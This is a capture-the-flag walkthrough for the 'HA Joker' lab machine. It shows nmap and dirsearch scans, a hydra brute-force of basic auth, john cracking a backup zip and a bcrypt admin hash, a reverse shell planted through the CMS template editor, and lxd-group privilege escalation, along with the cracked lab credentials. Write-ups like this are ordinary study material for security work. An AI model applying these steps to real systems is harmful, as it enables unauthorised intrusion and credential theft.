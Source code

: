 #Title: HA Joker
#Difficulty: Medium

```bash
nmap -sC -sV $THM

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Joker
8080/tcp open  http    Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This means there are 2 websites and 1 ssh port open. Let's start with port 80. The website does not contain any information.

```bash
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://$THM

[18:35:04] Starting: 
[18:35:06] 200 -    4KB - /img/
[18:35:06] 301 -  308B  - /img  ->  http://$THM/img/
[18:35:08] 403 -  276B  - /icons/
[18:35:09] 200 -    6KB - /index.html
[18:35:15] 301 -  308B  - /css  ->  http://$THM/css/
[18:35:15] 200 -    1KB - /css/
[18:36:15] 200 -  320B  - /secret.txt

```

All other folders return error except `secret.txt`.

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

It explicitly mentions `rock`. It may be a reference to rockyou.txt and breaking. We can continue with port 8080 by adding :8080 at the end of ip. It asks for authentication. We can brute-force with hydra. I will take a wild guess instead of using big wordlist of usernames I will first start with `joker`.

`hydra -l joker -P /usr/share/wordlists/rockyou.txt -f $THM -s 8080 http-get -I /` . It worked and we got out password.

`[8080][http-get] host: 10.10.94.94   login: joker   password: hannah`

Let's now run our dirsearch with this new website. `dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://$THM:8080 --auth-type=basic --auth=joker:hannah`

It contains a lot of directories. It also has robots.txt open and we can see directories from there too.

```bash
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

```bash
[18:42:45] Starting: 
[18:42:48] 301 -  318B  - /images  ->  http://10.10.94.94:8080/images/
[18:42:49] 301 -  317B  - /media  ->  http://10.10.94.94:8080/media/
[18:42:49] 301 -  321B  - /templates  ->  http://10.10.94.94:8080/templates/
[18:42:49] 200 -   31B  - /templates/
[18:42:49] 200 -   31B  - /media/
[18:42:49] 403 -  278B  - /icons/
[18:42:49] 200 -   31B  - /images/
[18:42:51] 301 -  319B  - /modules  ->  http://10.10.94.94:8080/modules/
[18:42:51] 200 -   31B  - /modules/
[18:42:51] 200 -   11KB - /index.php
[18:42:56] 301 -  315B  - /bin  ->  http://10.10.94.94:8080/bin/
[18:42:56] 200 -   31B  - /bin/
[18:42:56] 301 -  319B  - /plugins  ->  http://10.10.94.94:8080/plugins/
[18:42:56] 200 -   31B  - /plugins/
[18:42:58] 301 -  320B  - /includes  ->  http://10.10.94.94:8080/includes/
[18:42:58] 200 -   31B  - /includes/
[18:43:01] 301 -  320B  - /language  ->  http://10.10.94.94:8080/language/
[18:43:01] 200 -   31B  - /language/
[18:43:01] 200 -    4KB - /README.txt
[18:43:01] 200 -    4KB - /README
[18:43:02] 200 -   31B  - /components/
[18:43:02] 301 -  322B  - /components  ->  http://10.10.94.94:8080/components/
[18:43:03] 301 -  317B  - /cache  ->  http://10.10.94.94:8080/cache/
[18:43:03] 200 -   31B  - /cache/
[18:43:05] 200 -   31B  - /libraries/
[18:43:05] 301 -  321B  - /libraries  ->  http://10.10.94.94:8080/libraries/
[18:43:12] 200 -  836B  - /robots.txt
[18:43:12] 200 -  836B  - /robots
[18:43:55] 200 -   12MB - /backup
[18:43:58] 301 -  315B  - /tmp  ->  http://10.10.94.94:8080/tmp/
[18:43:58] 200 -   31B  - /tmp/
[18:44:00] 200 -   18KB - /LICENSE.txt
[18:44:00] 200 -   18KB - /LICENSE
[18:44:04] 301 -  319B  - /layouts  ->  http://10.10.94.94:8080/layouts/
[18:44:04] 200 -   31B  - /layouts/
[18:44:29] 301 -  325B  - /administrator  ->  http://10.10.94.94:8080/administrator/
[18:44:29] 200 -    5KB - /administrator/
```

I checked /administrator and it contains a login page we can brute-force later but now most interesting thing is `/backup`. We may find some hidden information there. I used john to crack the zip file.

```bash
zip2john backup.zip > crack
john --wordlist/usr/share/wordlists/rockyou.txt crack
```

It turns out joker uses same password for everywhere. It is `hannah`. Let's now unzip and start investigation. I checked the db folder and there was sql file I used sublime text to view and check for passwords. I found admin password and a hash there.
`INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG'`

We can use john and hashcat to cract it but I will continue with john.

```bash
echo "admin:$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG" > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcd1234         (admin)     
1g 0:00:00:02 DONE (2023-11-22 19:02) 0.3690g/s 398.5p/s 398.5c/s 398.5C/s twilight..brownie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We got the password for admin page. We can now upload our reverse shell. To do that we can go to extentions and templates then sellect the first template and click on index.php or New File and upload the code then open the netcat `nc -nvlp 22`. Now you can go to main page or the page you uploaded and wait for connection. 

BOOM! We got the shell now. We can now use linpeas and find out how we can priv esc. We see that there are a lot of vulnerabilities with this machine but the main one is about the group we are in which is `lxd`. I used this tutorial to do the escalation (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation). After that I got the root. The file is stored in `/mnt/root/root/final.txt`.
